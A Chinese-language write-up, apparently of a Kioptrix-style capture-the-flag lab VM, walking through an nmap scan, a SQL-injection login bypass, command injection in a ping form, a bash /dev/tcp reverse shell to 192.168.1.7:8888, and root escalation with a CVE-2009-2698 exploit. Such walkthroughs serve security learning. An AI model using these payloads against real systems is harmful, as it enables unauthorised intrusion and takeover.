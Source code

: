 # 1. 信息收集

> nmap

~~~shell
# ip探测

# Nmap 7.92 scan initiated Thu May  5 00:55:05 2022 as: nmap -sn -oN pingscan.txt 192.168.1.0/24
Nmap scan report for 192.168.1.1
Host is up (0.0023s latency).
MAC Address: FC:61:E9:D9:E7:AC (Fiberhome Telecommunication Technologies)
Nmap scan report for 192.168.1.3
Host is up (0.00055s latency).
MAC Address: A4:5E:60:C2:D9:0B (Apple)
Nmap scan report for 192.168.1.101
Host is up (0.00087s latency).
MAC Address: 00:0C:29:C5:81:9A (VMware)
Nmap scan report for 192.168.1.7
Host is up.
# Nmap done at Thu May  5 00:55:07 2022 -- 256 IP addresses (4 hosts up) scanned in 2.03 seconds
发现主机：192.168.1.101

# 操作系统、端口、常用漏洞探测
# Nmap 7.92 scan initiated Thu May  5 00:56:12 2022 as: nmap -n -v -sV -A -sC -T5 -p- -Pn -o scan101.txt 192.168.1.101
Nmap scan report for 192.168.1.101
Host is up (0.00099s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey:
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            707/udp   status
|_  100024  1            710/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_ssl-date: 2022-05-05T01:43:12+00:00; -3h13m33s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de 29f9 fbfb 2eb2 beaf e624 3157 090f
|_SHA-1: 560c 9196 6506 fb0f fb81 66b1 ded3 ac11 2ed4 808a
|_http-server-header: Apache/2.0.52 (CentOS)
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods:
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
710/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:C5:81:9A (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.019 days (since Thu May  5 00:29:15 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=202 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: -3h13m33s

TRACEROUTE
HOP RTT     ADDRESS
1   0.99 ms 192.168.1.101

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  5 00:56:45 2022 -- 1 IP address (1 host up) scanned in 33.63 seconds
~~~

> web服务

访问首页访问源代码，发现一个登录页面：

[1.png](https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/1.png)


~~~html
<html>
<body>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>

<!-- Start of HTML when logged in as Administator -->
</body>
</html>
~~~

`通过分析源代码，发现用户名大概率是administrator,但是没有密码信息，尝试万能密码：`

> `payload: `
>
> `uname:administrator' or '1'='1`
>
> `psw:' or '1'='1`

[!2.png](https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/2.png)

`payload:127.0.0.1;pwd;whoami;`

[!3.png](https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/3.png)

寻找写权限的目录：

[!4.png](https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/4.png)

> 弹shell

`payload:`

`192.168.1.7;bash -c 'exec bash -i &>/dev/tcp/192.168.1.7/8888 <&1';`

[!5.png](https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/5.png)



> 提权

我试了1397.c,但是提权不成功
~~~bash
bash-3.00$ gcc -o 0x82-CVE-2009-2698 9542.c && ./0x82-CVE-2009-2698
9542.c:109:28: warning: no newline at end of file
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
bash-3.00# passwd root
New UNIX password: 123456
BAD PASSWORD: it is too simplistic/systematic
Retype new UNIX password: 123456
Changing password for user root.
passwd: all authentication tokens updated successfully.
~~~

[!6.png](https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/6.png)
